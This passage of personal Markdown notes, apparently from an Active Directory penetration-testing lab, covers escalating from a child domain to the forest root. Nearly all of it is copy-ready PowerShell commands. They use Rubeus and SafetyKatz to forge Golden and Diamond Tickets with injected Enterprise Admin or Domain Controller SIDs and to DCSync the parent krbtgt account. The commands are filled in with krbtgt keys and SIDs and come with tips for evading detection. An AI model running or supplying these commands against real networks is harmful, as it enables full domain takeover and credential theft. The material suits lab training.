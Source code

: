 Essentialy just forging a `Golden Ticket` but adding the putting the Enterprise Admins group as the`sIDHistory` at the same time

#### Rubeus

**OPSEC** - Create a Diamond Ticket using the `Domain Controllers` group instead of the Enterprise Admins group along with the domain controller machine account and the Enterprise Domain Controllers forest group 
```powershell
.\Loader.exe -path .\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Golden Ticket using the Domain Controllers machine account for more **OPSEC**
```powershell
.\Loader.exe -path .\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /dc:DCORP-DC.dollarcorp.moneycorp.local /ptt
```

DCSync on parent domain `krbtgt` account
```powershell
.\Loader.exe -path .\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Using the Administrator account
```powershell
.\Loader.exe -path .\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /dc:DCORP-DC.dollarcorp.moneycorp.local /ptt
```

#### Safetykatz
Due to the trust, the parent domain will trust the TGT.
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

**OPSEC OPTION** - Use the Domain Controllers Machine group,the Domain controller machine account and the Enterprise Domain Controllers forest group
	- `S-1-5-21-2578538781-2508153159-3419410681-516` - Domain Controllers
	- `S-1-5-9` - Enterprise Domain Controllers
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819- 3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

Run a DCsync
```powershell
.\Loader.exe -path .\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

![[Pasted image 20250519110323.png]]